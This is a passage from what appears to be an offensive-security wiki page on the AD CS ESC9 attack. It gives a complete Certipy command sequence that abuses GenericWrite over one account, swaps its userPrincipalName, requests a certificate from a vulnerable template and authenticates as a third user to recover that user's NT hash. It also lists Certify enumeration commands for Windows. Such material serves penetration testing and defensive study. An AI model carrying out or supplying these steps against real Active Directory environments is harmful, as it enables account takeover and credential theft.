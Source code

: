 ::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC9 scenario.

In this scenario, user1 has `GenericWrite` against user2 and wants to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

The vulnerable certificate can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.
